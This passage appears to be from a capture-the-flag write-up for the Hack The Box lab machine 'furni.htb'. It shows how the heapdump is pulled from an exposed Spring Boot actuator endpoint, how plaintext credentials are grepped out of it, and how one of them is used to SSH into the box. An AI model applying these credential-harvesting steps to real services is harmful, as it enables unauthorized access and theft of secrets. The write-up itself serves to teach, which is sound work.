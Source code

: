 ```json
            },
<SNIP>	
```

One of the most interesting endpoints is: `heapdump`, if we check the [API Docs](https://docs.spring.io/spring-boot/api/rest/actuator/heapdump.html) we can see that the output is binary data:

> To retrieve the heap dump, make a `GET` request to `/actuator/heapdump`. The response is binary data and can be large. Its format depends upon the JVM on which the application is running. When running on a HotSpot JVM the format is [HPROF](https://docs.oracle.com/javase/8/docs/technotes/samples/hprof.html) and on OpenJ9 it is [PHD](https://www.eclipse.org/openj9/docs/dump_heapdump/#portable-heap-dump-phd-format). Typically, you should save the response to disk for subsequent analysis. When using curl, this can be achieved by using the `-O` option, as shown in the following example...

So let's grab the `heapdump`.

```bash
curl http://furni.htb/actuator/heapdump -O

% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 76.4M  100 76.4M    0     0   730k      0  0:01:47  0:01:47 --:--:-- 1013k
```

Looking around we can use the port number we found earlier to find something interesting:
```bash
strings heapdump | grep 8761
P`http://localhost:8761/eureka/
http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/!
http://localhost:8761/eureka/!
http://localhost:8761/eureka/!
Host: localhost:8761
http://localhost:8761/eureka/!
Host: localhost:8761
```

We get the credentials:
`EurekaSrvr`:`0scarPWDisTheB3st`

Additionally, based on this password we can look for  the user named `oscar` and we find the following.
```bash
strings heapdump | grep -E "oscar"
oscar190!
{password=0sc@r190_S0l!dP@sswd, user=oscar190}!
```

We get more credentials:

`oscar190`:`0sc@r190_S0l!dP@sswd`

 We can use these to `ssh` and get a shell onto the box.
```bash
ssh oscar190@furni.htb
oscar190@furni.htbs password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-214-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 27 Apr 2025 09:32:11 AM UTC

  System load:           0.13
  Usage of /:            61.6% of 6.79GB
  Memory usage:          41%
  Swap usage:            0%
  Processes:             241
  Users logged in:       0
```